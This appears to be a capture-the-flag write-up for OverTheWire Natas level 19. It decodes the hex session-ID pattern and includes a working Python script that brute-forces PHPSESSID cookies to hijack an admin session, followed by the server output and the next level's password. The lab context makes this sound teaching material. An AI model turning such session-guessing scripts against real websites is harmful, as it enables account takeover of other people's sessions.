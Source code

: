 # Natas Level 19
```bash
Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
URL:      http://natas19.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas19.png" />
    <div align="center">Natas 19</div>
</figure>

```html
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
```

Lets try to find a pattern in the session IDs:

| Username | Password         | PHPSESSID      | hex-to-ASCII |
| -------- | ---------------- | -------------- | ------------ |
| a        | *empty password* | 36312d61       | 61-a         |
| a        | a                | 3536362d61     | 566-a        |
| a        | a                | 3135332d61     | 153-a        |
| b        | *empty password* | 36313430342d62 | 404-b        |

Its seems like the password is being ignored, a random session ID is being generated and the PHPSESSID is "rand-&lt;username&gt;".

We want the session of "admin", so lets again brute force with this pattern.

Using similar python code:
```python
import requests
import string
import binascii

URL = "http://natas19.natas.labs.overthewire.org/index.php"
auth = ('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs')

phpsessid = 0

while True:
    cookie = {'PHPSESSID': binascii.hexlify(str(phpsessid) + '-admin')}

    r = requests.get(URL, auth=auth, cookies=cookie)

    if 'retrieve credentials' in r.text:
        phpsessid += 1
    else:
        break

print r.text
```

We get:
```bash
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<img src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7" data-wp-preserve="%3Cscript%20src%3D%22http%3A%2F%2Fnatas.labs.overthewire.org%2Fjs%2Fjquery-1.9.1.js%22%3E%3C%2Fscript%3E" data-mce-resize="false" data-mce-placeholder="1" class="mce-object" width="20" height="20" alt="&lt;script&gt;" title="&lt;script&gt;" />
<img src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7" data-wp-preserve="%3Cscript%20src%3D%22http%3A%2F%2Fnatas.labs.overthewire.org%2Fjs%2Fjquery-ui.js%22%3E%3C%2Fscript%3E" data-mce-resize="false" data-mce-placeholder="1" class="mce-object" width="20" height="20" alt="&lt;script&gt;" title="&lt;script&gt;" />
<img src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7" data-wp-preserve="%3Cscript%20src%3Dhttp%3A%2F%2Fnatas.labs.overthewire.org%2Fjs%2Fwechall-data.js%3E%3C%2Fscript%3E" data-mce-resize="false" data-mce-placeholder="1" class="mce-object" width="20" height="20" alt="&lt;script&gt;" title="&lt;script&gt;" /><img src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7" data-wp-preserve="%3Cscript%20src%3D%22http%3A%2F%2Fnatas.labs.overthewire.org%2Fjs%2Fwechall.js%22%3E%3C%2Fscript%3E" data-mce-resize="false" data-mce-placeholder="1" class="mce-object" width="20" height="20" alt="&lt;script&gt;" title="&lt;script&gt;" />
<img src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7" data-wp-preserve="%3Cscript%3Evar%20wechallinfo%20%3D%20%7B%20%22level%22%3A%20%22natas19%22%2C%20%22pass%22%3A%20%224IwIrekcuZlA9OsjOkoUtwU6lhokCPYs%22%20%7D%3B%3C%2Fscript%3E" data-mce-resize="false" data-mce-placeholder="1" class="mce-object" width="20" height="20" alt="&lt;script&gt;" title="&lt;script&gt;" /></head>
<body>

<h1>natas19</h1>


<div id="content">


<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>


You are an admin. The credentials for the next level are:

<pre>Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre>
</div>

</body>
</html>
```

We got the password for the next level: **eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF**